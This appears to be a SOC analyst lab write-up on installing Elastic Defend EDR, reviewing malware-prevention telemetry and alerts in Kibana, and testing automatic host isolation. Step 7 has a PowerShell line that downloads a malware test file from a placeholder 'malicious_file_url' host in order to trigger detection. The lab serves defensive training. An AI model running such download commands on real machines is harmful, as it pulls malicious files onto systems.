

# 🧠 Day 29 – Elastic Defend (EDR) Installation & Telemetry Analysis

### 30-Day SOC Analyst Challenge – MyDFIR Series

---

## 🎯 Objective

By the end of this lab, you will have:

- Installed **Elastic Defend (EDR)** on your endpoint.
- Viewed the **telemetry and alerts** generated by Elastic Defend.
- Tested **malware prevention and host isolation** capabilities.

---

## 🛡️ Introduction

**Elastic Defend** is Elastic’s native Endpoint Detection and Response (EDR) solution.  
It provides **real-time protection**, **telemetry visibility**, and **incident response** features.

With a **free subscription**, you can:

- Download and install Elastic Defend.
- View alerts and telemetry.

⚠️ **Limitation:** Free subscriptions **cannot remotely isolate hosts**.  
However, with the **30-day free trial**, full EDR capabilities (including host isolation) are enabled.

---

## ⚙️ Step 1: Installing Elastic Defend

1. In Kibana, click the **☰ Hamburger icon** (top-left corner).
2. Scroll down and select **Integrations**.
3. Search for **Elastic Defend** and click **Add Elastic Defend**.
4. Configure the integration:

   - **Name:** `araizii-edr`
   - **Description:** `Elastic EDR MyDFIR 30-Day Challenge`

5. Choose a configuration profile:

   - **Data Collection**
   - **NextGen Antivirus**
   - **Essential EDR**
   - **Complete EDR**

   For this challenge, select:

   - **Complete EDR** (available through 30-day free trial).
   - **Traditional Endpoint** (for desktop, laptop, VM).

6. Attach to your host:

   - Example: Select your **Windows Server policy** (`my-windows-policy`).

7. Click:
   - **Save and Continue**
   - **Save and Deploy Changes**

## 

---

## 🧩 Step 2: Verify Endpoint Connection

1. Go to **☰ → Security → Manage → Endpoints**.
2. Verify that your Windows Server appears as an active endpoint.
3. Under **Actions**, confirm that **Isolate Host** is available  
   (available only with the 30-day trial).

## 

---

## 💣 Step 3: Test Malware Prevention

1. In your **Windows Server console**, open the directory containing `araizii.exe`.
2. Attempt to execute the file.

   ✅ **Expected Result:**  
   You’ll receive an alert:

   > “Operation did not complete successfully because the file contains a virus or potentially unwanted software.”

3. You’ll also see a notification:
   > “Elastic Security prevented araizii.exe”

## 

---

## 🔍 Step 4: View Telemetry in Kibana

1. Go to **Discover** in Kibana.
2. Search for the keyword: `malware`.
3. Adjust the time filter to **Last 15 minutes**.
4. Sort results by **Timestamp (newest first)**.

📄 Example telemetry fields:

- **Event Code:** `malicious_file`
- **Directory:** `C:\Users\Public\Downloads`
- **Quarantine Path:** `<auto-generated path>`
- **File Name:** `araizii.exe`
- **File Owner:** `<username>`
- **File Hash:** `<SHA256 hash>`

## 

---

## 🚨 Step 5: Analyze Alerts

1. Navigate to **Security → Alerts**.
2. Open the **Malware Prevention Alert**.
3. Click **View Details**.

### Example Alert Information:

- Rule: **Generates detection alert when an Elastic endpoint security alert is received.**
- Contains:
  - **Process Executable**
  - **File Path**
  - **File Hash**
- Visualizations:
  - **Process Tree** (e.g., `explorer.exe → araizii.exe`)
  - If additional processes were spawned (e.g., `rundll32.exe`), they would appear here as well.

## 

---

## 🧰 Step 6: Add Response Action

1. Edit the Malware Prevention rule:
   - Click **Edit Rule Settings → Actions → Elastic Defend**.
2. For the **Response Action**, choose **Isolate Host**.
3. Add a **comment:** “Testing”
4. Save your changes.

---

## 🧪 Step 7: Test Host Isolation

1. In the Windows Server, open **Command Prompt**.
2. Execute an **infinite ping** to Google DNS:

   ```bash
   ping 8.8.8.8 -t
   ```

3. Since the file was quarantined, re-download it via PowerShell:

   ```powershell
   # Example re-download
   iwr -uri "http://malicious_file_url/araizii.exe" -OutFile "C:\Users\Public\Downloads\araizii.exe"
   ```

4. Observe that Elastic Defend **immediately deletes the file** on detection.
5. Within a few minutes, the **Windows Server becomes isolated** —  
   confirming the isolation response was successful.

---

## ✅ Conclusion

🎉 **Congratulations!**  
You have successfully:

- Installed and configured **Elastic Defend**.
- Monitored **malware prevention telemetry**.
- Tested **alert generation** and **host isolation**.

---
